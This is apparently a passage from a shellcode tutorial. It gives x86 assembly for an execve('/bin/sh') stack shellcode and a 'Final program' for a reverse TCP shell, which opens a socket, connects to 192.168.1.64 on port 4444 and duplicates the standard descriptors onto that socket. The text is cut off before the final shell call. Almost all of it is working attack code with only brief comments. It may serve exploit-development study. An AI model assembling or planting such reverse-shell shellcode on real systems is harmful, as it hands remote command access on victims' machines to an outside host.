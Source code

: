 Simple exevce shellcode /bin/sh that use the stack.

```nasm
        xor eax, eax
        push eax
        push 0x68732f2f
        push 0x6e69622f
        mov ebx, esp
        push eax
        mov edx, esp
        push ebx
        mov ecx, esp
        mov al, 11
        int 0x80
```


#### Final program


```nasm
global _start			

section .text
_start:
	; int socket(int domain, int type, int protocol);
	xor eax, eax
	xor ebx, ebx
	push eax		; protocol	- 0
	push 1			; type		- SOCK_STREAM,
	push 2			; dominio 	- AF_INET

	mov ecx, esp		; arguments
	mov bl, 1		; sys_socket
	mov al, 102		; systemcall
	int 0x80

	mov esi, eax		; save sockfd


	; connect(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
	xor ecx, ecx
	push 0x4001a8c0		; addr (192.168.1.64)
	push word 0x5c11	; Port 4444
	push word 2		; PF_INET
	mov ecx, esp		; save *addr in ecx
	
	push 0x10		; length addrlen=16
	push ecx		; &serv_addr
	push esi		; sockfd

	mov ecx, esp		; arguments
	mov al, 102		; systemcall
	mov bl, 3		; sys_connect
	int 0x80


	; int dup2(int oldfd, int newfd);	
	mov ebx, esi		; oldfd = clientfd
	xor ecx, ecx            ; ecx = newfd      
loop:
    	mov al, 0x3f           	; syscall dup2    
    	int 0x80
	inc ecx			
    	cmp ecx, 0x2
    	jle loop
```